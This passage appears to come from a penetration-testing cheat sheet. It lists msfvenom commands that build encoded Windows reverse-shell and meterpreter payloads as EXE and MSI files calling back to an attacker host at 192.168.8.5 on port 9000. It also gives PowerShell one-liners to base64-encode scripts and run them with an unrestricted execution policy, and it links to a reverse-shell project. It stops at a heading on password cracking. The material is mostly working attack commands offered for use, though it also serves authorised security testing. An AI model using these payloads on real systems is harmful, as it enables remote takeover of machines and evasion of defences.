 To generate a `standalone executable`, file use one of the following MSFvenom commands, modify them to your need:

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o payload.exe

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -o payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -o payload.exe
```

To generate an `MSI file`, use one of the following MSFvenom commands, modify them to your need:

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o payload.msi

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o payload.msi
```

Bytecode might not work on the first try due to some other bad characters. Trial and error is the key.

So far there is no easy way to generate a DLL nor MSI file with a stageless meterpreter shell due to the size issues.

### PowerShell Encoded Command

To generate a PowerShell encoded command from a PowerShell script, run the following PowerShell command:

```pwsh
[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes([IO.File]::ReadAllText($script)))
```

To run the PowerShell encoded command, run the following command from either PowerShell or Command Prompt:

```pwsh
PowerShell -ExecutionPolicy Unrestricted -NoProfile -EncodedCommand $command
```

To decode a PowerShell encoded command, run the following PowerShell command:

```pwsh
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($command))
```

Find out more about PowerShell reverse and bind TCP shells at [ivan-sincek/powershell-reverse-tcp](https://github.com/ivan-sincek/powershell-reverse-tcp).

## 5. Password Cracking
